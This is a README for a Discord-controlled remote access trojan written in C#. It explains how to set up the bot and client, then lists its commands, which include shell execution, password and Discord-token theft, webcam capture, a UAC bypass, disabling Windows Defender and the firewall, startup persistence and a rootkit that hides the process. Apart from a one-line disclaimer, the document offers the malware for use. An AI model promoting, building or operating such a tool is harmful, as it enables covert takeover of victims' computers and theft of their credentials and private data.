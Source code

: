 # DiscordRAT
Discord Remote Administration Tool fully written in c#.

This is a RAT controlled over Discord with over 40 post exploitation modules.

The output file size also around ~75kb!

## **Disclaimer:**

This tool is for educational use only, the author will not be held responsible for any misuse of this tool.

 ## **Setup Guide:**

You will first need to register a bot with the Discord developer portal and then add the bot to the Discord server that you want to use to control the bot (make sure the bot has administrator privileges in the Discord server).
Once the bot is created open ```Client-built.exe``` in the build file and paste the token in, and paste the guild ID of where you invited the bot

Then if the steps above were successful, you can launch the file by executing ```build.exe```. It will create a new channel and post a message on the server with a generated session number.\
Now your bot should be available to use ! 

**Requirements:**\
Windows(x64)

## **Commands**
```
Available commands are :
--> !message = Show a message box displaying your text / Syntax  = "!message example"
--> !shell = Execute a shell command /Syntax  = "!shell whoami"
--> !voice = Make a voice say outloud a custom sentence / Syntax = "!voice test"
--> !admincheck = Check if program has admin privileges
--> !cd = Changes directory
--> !dir = display all items in current dir
--> !download = Download a file from infected computer
--> !upload = Upload file to the infected computer / Syntax = "!upload file.png" (with attachment)
--> !uploadlink = Upload file to the infected computer / Syntax = "!upload link file.png"
--> !delete = deletes a file / Syntax = "!delete / path to / the / file.txt"
--> !write = Type your desired sentence on computer
--> !wallpaper = Change infected computer wallpaper / Syntax = "!wallpaper" (with attachment)
--> !clipboard = Retrieve infected computer clipboard content
--> !idletime = Get the idle time of user's on target computer
--> !currentdir = display the current dir
--> !block = Blocks user's keyboard and mouse / Warning : Admin rights are required
--> !unblock = Unblocks user's keyboard and mouse / Warning : Admin rights are required
--> !screenshot = Get the screenshot of the user's current screen
--> !exit = Exit program
--> !kill = Kill a session or all sessions / Syntax = "!kill session-3" or "!kill all"
--> !uacbypass = attempt to bypass uac to gain admin by using windir and slui
--> !shutdown = shutdown computer
--> !restart = restart computer
--> !logoff = log off current user
--> !bluescreen = BlueScreen PC
--> !datetime = display system date and time
--> !prockill = kill a process by name / syntax = "!kill process"
--> !disabledefender = Disable windows defender(requires admin)
--> !disablefirewall = Disable windows firewall(requires admin)
--> !audio = play a audio file on the target computer / Syntax = "!audio" (with attachment)
--> !critproc = make program a critical process. meaning if its closed the computer will bluescreen(Admin rights are required)
--> !uncritproc = if the process is a critical process it will no longer be a critical process meaning it can be closed without bluescreening(Admin rights are required)
--> !website = open a website on the infected computer / syntax = "!website www.google.com"
--> !disabletaskmgr = disable task manager(Admin rights are required)
--> !enabletaskmgr = enable task manager(if disabled)(Admin rights are required)
--> !startup = add to startup(when computer go on this file starts)
--> !geolocate = Geolocate computer using latitude and longitude of the ip adress with google map / Warning : Geolocating IP adresses is not very precise
--> !listprocess = Get all process's
--> !password = grab all passwords
--> !rootkit = Launch a rootkit (the process will be hidden from taskmgr and you wont be able to see the file)(Admin rights are required)
--> !unrootkit = Remove the rootkit(Admin rights are required)
--> !getcams = Grab the cameras names and their respected selection number
--> !selectcam = Select camera to take a picture out of (default will be camera 1)/ Syntax "!selectcam 1"
--> !webcampic = Take a picture out of the selected webcam
--> !grabtokens = Grab all discord tokens on the current pc
--> !help = This help menu
```
.
